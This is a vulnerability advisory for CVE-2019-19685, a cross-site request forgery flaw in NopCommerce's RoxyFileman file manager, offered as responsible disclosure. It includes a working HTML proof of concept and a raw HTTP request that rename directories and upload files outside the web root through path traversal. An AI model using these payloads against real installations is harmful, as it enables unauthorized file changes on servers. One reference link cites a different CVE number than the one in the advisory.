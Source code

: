 ```yaml
---
layout: default
parent: NopCommerce Shopping CMS
nav_order: 1
title: CVE-2019-19685 - Cross-Site-Request-Forgery (CSRF)
---
```


# Cross-Site-Request-Forgery (CSRF)

## Summary

It was observed that the application, although implementing a strong Cross-Site Request Forgery protection, allowed for some requests to be sent without a valid synchronizer token. This allows attackers to cause application users or administrators to carry out functionality on their behalf, such as adding a new administrative user or changing a user's details.

Cross-Site Request Forgery (CSRF) is an attack which masks web application functionality in such a way so as to trick the user into loading a page that contains a spoofed request. The request inherits the identity and privileges
of the victim to perform an undesired function on the victim's behalf, like change the victim's e-mail address, home address, password, or purchase something. CSRF attacks generally target functions that cause a state
change on the server but can also be used to access sensitive data.

Affected are all the functionalities of the file Libraries/Nop.Services/Media/RoxyFileman/RoxyFilemanController.cs. CWE is classifying the issue as CWE-352. This is going to have an impact on confidentiality and integrity.

The weakness was discovered during July 2019 and it is traded as CVE-2019-19685 since 12/09/2019. The exploitability is told to be non-trivial. It is possible to launch the attack remotely. A single authentication is necessary for exploitation. Technical details are known, and a public exploit has been developed by Alessandro Magnosi and released to the public.

The issue was previously mitigated implementing the same-site cookie protection, which is set to “lax”. However, the implementation of RoxyFileman allows to delete, rename and move directories and files using the HTTP GET request method, making this kind of protection useless, as with same-site attribute set to “lax”, cookies are sent in any case if the HTTP Method is GET. Moreover, against any specification, the RoxyFIleman implementation doesn’t check the HTTP request, meaning that it is possible to upload a file using a non-RFC compliant GET (with a request body).

## Proof-of-Concept

The following PoC can be used to create a file under C:\Users\Public\Document [Replace depending on installation type]. 

**Steps to reproduce:**

1. Copy the code in poc.html file
2. Modify in the PoC the target references
3. Login as admin into NopCommerce web application
4. Open the file with the browser in a new tab
5. Check on the server filesystem if C:\Users\Public\Documents\pwnd.txt has been created


```

<html>
  <!-- CSRF PoC - Rename Directory Common -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var target = “http://192.168.226.128”;
        var xhr = new XMLHttpRequest();
        xhr.open("GET", target + "/nopcommerce\/Admin\/RoxyFileman\/ProcessRequest?a=RENAMEDIR&d=%2fimages%2fuploaded%2f..%2F..%2F..%2F..%2F..%2F..%2F..%2Finetpub%2fwwwroot%2fnopcommerce%2fViews%2fCommon%2f&n=Common2", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```


An additional PoC has been provided in a raw form to explain how it was possible to upload a file using a GET, below.

```
GET /Admin/RoxyFileman/ProcessRequest?a=UPLOAD HTTP/1.1
Host: <SNIPPED>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3125261928760
Content-Length: 556
Connection: close
Cookie: [SNIPPED][To change with a valid admin session]

-----------------------------3125261928760
Content-Disposition: form-data; name="action"

upload
-----------------------------3125261928760
Content-Disposition: form-data; name="method"

ajax
-----------------------------3125261928760
Content-Disposition: form-data; name="d"

/images/uploaded/../../../../../../../../../../Users/Public/Documents/
-----------------------------3125261928760
Content-Disposition: form-data; name="files[]"; filename="pwnd.txt"
Content-Type: image/png

PWND!!!

-----------------------------3125261928760--
```

Using the following PoC, a file named “pwnd.txt” will appear in C:\Users\Public\Document folder.


## Remediation

Upgrading to version 4.3.0 solves the issue.

## References

*	https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF) 
*	https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet 
*	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9042 



 
